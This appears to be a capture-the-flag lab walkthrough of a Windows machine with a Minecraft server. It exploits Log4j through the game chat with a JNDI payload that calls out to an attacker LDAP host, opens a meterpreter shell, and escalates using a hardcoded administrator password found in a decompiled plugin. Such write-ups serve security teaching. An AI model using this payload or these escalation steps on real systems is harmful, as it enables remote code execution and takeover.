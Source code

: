 # PORT SCAN
* **80** &#8594; HTTP (IIS 10.0)
* **25565** &#8594; Minecraft (1.16.5)

<br><br><br>

# ENUMERATION & USER FLAG

Cool website and no need to tell you what is the scenario of this machine

![7d24909d2962ecc07057c078f6c74ed7.png](img/7d24909d2962ecc07057c078f6c74ed7.png)

The way to exploitthis was through [log4j](https://github.com/kozmer/log4j-shell-poc) abuse, a widely used libray for elasticsearch and **<u>minecraft</u>** too. We can use the PoC with a netcat listener (on the PoC we should change the command to be execute with `powershell.exe`)

![149245d6741f23a40d864379a710c4aa.png](img/149245d6741f23a40d864379a710c4aa.png)

To connect to the minecraft chat I used [this PoC right here](https://github.com/Hololm/MCMetasploit), this is the same as we are in the game chat!

![eaa21a14eb0b146c78d2fe46b59c666d.png](img/eaa21a14eb0b146c78d2fe46b59c666d.png)

Now we can send the payload for `log4j`, in my case (with my IP address) is `${jndi:ldap://10.10.14.15:1389/a}` and after using this on the chat the magic will happen!

![b255acc122e9a254c4e5da83f111b29f.png](img/b255acc122e9a254c4e5da83f111b29f.png)

I grabbed the flag as we are `svc_minecraft` user and spawn a meterpeter shell to be more 

<br><br><br>

# PRIVILEGE ESCALATION

Looking around the `svc_minecraft` home directoy I have found the only plugin inside the minecraft server, is a **.jar** so after the upload on my local machine I used `jd-gui` to decompile it and look inside. Is a simple Java Class that records the number of user inside the MC server but what's important is the presence of hardcoded credentials `s67u84zKq8IXw`

![e37ac762dfafa03777126c54fcf330ff.png](img/e37ac762dfafa03777126c54fcf330ff.png)

I tried to check with **runas** if this was teh administrator password and I was right

![6b6a95853e6986f154364fc0a11f23fc.png](img/6b6a95853e6986f154364fc0a11f23fc.png)

After that I used to directly read the root flag, but  same things can be done to spawn an high permission reverse shell

![b0b39dca2da312e6a62f62269104d15e.png](img/b0b39dca2da312e6a62f62269104d15e.png)
